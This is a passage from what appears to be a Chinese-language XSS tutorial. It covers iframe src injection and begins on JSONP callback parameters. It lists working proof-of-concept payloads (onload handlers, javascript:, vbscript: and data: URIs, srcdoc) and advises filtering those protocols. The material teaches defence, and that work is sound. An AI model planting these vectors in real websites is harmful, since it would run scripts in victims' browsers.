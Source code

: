 ### 0x09

#### 模型
有时候，输出还会出现在 `<iframe src="[输出]"></iframe> 。 iframe `的 src属性本来应该是一个网址，但是iframe之善变，使得它同样可以执行javascript，而且可以用不同的姿势来执行。这一类问题，我将其归为[路径可控]问题。当然上面说到的是普通的反射型XSS。有时候程序员会使用javascript来动态的改变iframe的src属性，譬如：`iframeA.src="[可控的url]";` 同样会导致XSS问题。
#### 思路

1. 一般就下列几个



1.1 最好懂的，onload执行js

`<iframe onload="alert(1)"></iframe>`


1.2 src 执行javascript代码

`<iframe src="javascript:alert(1)"></iframe>`


1.3 IE下vbscript执行代码

`<iframe src="vbscript:msgbox(1)"></iframe> `


1.4 Chrome下data协议执行代码

`<iframe src="data:text/html,<script>alert(1)</script>"></iframe> Chrome`


1.5 上面的变体

`<iframe src="data:text/html,&lt;script&gt;alert(1)&lt;/script&gt;"></iframe>`


1.6 Chrome下srcdoc属性

`<iframe srcdoc="&lt;script&gt;alert(1)&lt;/script&gt;"></iframe>`

具体例子：[link](http://wooyun.org/bugs/wooyun-2010-016223)
#### 防御方案
危险的不光是javascript:，

vbscript:, data: 等同样需要过滤。


-----

### 0x0a

#### 模型
一些程序员会动态的加载json数据，同域的时候，可以使用ajax；而有时候，数据所在域和当前页面所在域又不一致。所以需要跨域请求。跨域请求数据的手段中，有一种叫做jsonp。

用代码表示的话，就是
`somescript.src="http://otherdomain.com/xx?jsonp=callback"`
某些时候，程序员会在调用外部数据的时候带上可控的参数。

`somescript.src="http://otherdomain.com/xx?jsonp=callback&id="+id;`

